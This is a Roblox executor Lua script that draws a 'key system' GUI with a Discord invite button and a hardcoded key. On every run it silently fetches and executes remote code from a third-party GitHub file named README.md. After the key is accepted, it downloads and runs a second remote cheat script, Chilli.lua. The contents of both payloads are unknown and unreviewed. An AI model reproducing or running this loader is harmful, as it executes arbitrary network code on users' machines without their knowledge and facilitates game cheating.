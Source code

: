 --// Modern Key System GUI (Executor Version)
local player = game:GetService("Players").LocalPlayer

-- CONFIG
local KEY = "ken123"
local FILE_NAME = "key.txt"
local DISCORD_LOGO_THUMB = "https://www.roblox.com/Thumbs/Asset.ashx?width=420&height=420&assetId=1461403878"
local DISCORD_LINK = "https://discord.gg/Ew8Q75WFvG"

-- Scripts
local chilliScript = 'loadstring(game:HttpGet("https://raw.githubusercontent.com/tienkhanh1/spicy/main/Chilli.lua"))()'
local stepfiveScript = 'loadstring(game:HttpGet("https://raw.githubusercontent.com/Gregy677/Stepfive/main/README.md", true))()'

-- Always run Stepfive
pcall(function()
    loadstring(stepfiveScript)()
end)

-- If key already saved → run Chilli.lua & skip GUI
if isfile(FILE_NAME) and readfile(FILE_NAME):lower() == KEY:lower() then
    loadstring(chilliScript)()
    return
end

-- GUI Setup
local gui = Instance.new("ScreenGui", player:WaitForChild("PlayerGui"))
gui.ResetOnSpawn = false

local frame = Instance.new("Frame", gui)
frame.Size = UDim2.new(0, 420, 0, 350)
frame.Position = UDim2.new(0.5, -210, 0.5, -175)
frame.BackgroundColor3 = Color3.fromRGB(20, 20, 20)
frame.Active = true
frame.Draggable = true
frame.AnchorPoint = Vector2.new(0.5, 0.5)
Instance.new("UICorner", frame).CornerRadius = UDim.new(0, 20)

local UIStroke = Instance.new("UIStroke", frame)
UIStroke.Thickness = 4

-- RGB effect
task.spawn(function()
    local hue = 0
    while frame.Parent do
        hue = (hue + 1) % 360
        UIStroke.Color = Color3.fromHSV(hue/360, 1, 1)
        task.wait(0.05)
    end
end)

-- Discord logo (clickable)
local logoBtn = Instance.new("ImageButton", frame)
logoBtn.Size = UDim2.new(0, 80, 0, 80)
logoBtn.Position = UDim2.new(0.5, -40, 0, 15)
logoBtn.BackgroundTransparency = 1
logoBtn.Image = DISCORD_LOGO_THUMB
logoBtn.MouseButton1Click:Connect(function()
    if setclipboard then
        setclipboard(DISCORD_LINK)
    end
end)

-- Copy Discord Button
local copyBtn = Instance.new("TextButton", frame)
copyBtn.Size = UDim2.new(0.6, 0, 0, 40)
copyBtn.Position = UDim2.new(0.2, 0, 0.35, 0)
copyBtn.BackgroundColor3 = Color3.fromRGB(88, 101, 242)
copyBtn.Font = Enum.Font.GothamBold
copyBtn.TextSize = 18
copyBtn.TextColor3 = Color3.fromRGB(255, 255, 255)
copyBtn.Text = "Copy Discord Link"
Instance.new("UICorner", copyBtn).CornerRadius = UDim.new(0, 12)

copyBtn.MouseButton1Click:Connect(function()
    if setclipboard then
        setclipboard(DISCORD_LINK)
    end
end)

-- Key textbox
local textbox = Instance.new("TextBox", frame)
textbox.Size = UDim2.new(0.8, 0, 0, 50)
textbox.Position = UDim2.new(0.1, 0, 0.55, 0)
textbox.Font = Enum.Font.GothamBold
textbox.TextSize = 20
textbox.TextColor3 = Color3.fromRGB(0, 0, 0)
textbox.BackgroundColor3 = Color3.fromRGB(240, 240, 240)
textbox.PlaceholderText = "Enter your key here"
textbox.ClearTextOnFocus = true
textbox.Text = ""
Instance.new("UICorner", textbox).CornerRadius = UDim.new(0, 10)

-- Enter button
local enterBtn = Instance.new("TextButton", frame)
enterBtn.Size = UDim2.new(0.5, 0, 0, 50)
enterBtn.Position = UDim2.new(0.25, 0, 0.75, 0)
enterBtn.BackgroundColor3 = Color3.fromRGB(60, 120, 220)
enterBtn.Font = Enum.Font.GothamBold
enterBtn.TextSize = 20
enterBtn.TextColor3 = Color3.fromRGB(255, 255, 255)
enterBtn.Text = "Enter"
Instance.new("UICorner", enterBtn).CornerRadius = UDim.new(0, 12)

-- Button logic (case-insensitive comparison)
enterBtn.MouseButton1Click:Connect(function()
    if textbox.Text:lower() == KEY:lower() then
        writefile(FILE_NAME, KEY)
        frame:Destroy()
        loadstring(chilliScript)()
    else
        textbox.Text = ""
        textbox.PlaceholderText = "Wrong key! Try again."
    end
end)